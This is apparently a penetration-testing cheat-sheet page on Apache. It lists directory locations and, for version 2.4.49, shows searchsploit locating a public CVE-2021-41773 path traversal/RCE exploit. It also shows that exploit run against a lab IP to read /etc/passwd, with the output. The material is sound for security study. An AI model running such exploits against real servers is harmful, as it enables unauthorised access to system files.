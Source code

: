 # Apache

## Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>/var/www/html/</code></td></tr><tr><td><strong>Config</strong></td><td><ul><li><code>/etc/apache2/apache2.conf</code> (Ubuntu)</li><li><code>/etc/httpd/conf/httpd.conf</code> (CentOS/RHEL/Fedora)</li></ul></td></tr><tr><td><strong>Logs</strong></td><td><ul><li><code>/var/log/apache2/</code> (Ubuntu)</li><li><code>/var/log/httpd/</code> (CentOS/RHEL/Fedora)</li></ul></td></tr></tbody></table>

## Versions

### 2.4.49

Vulnerable to [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/cve-2021-41773).

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}
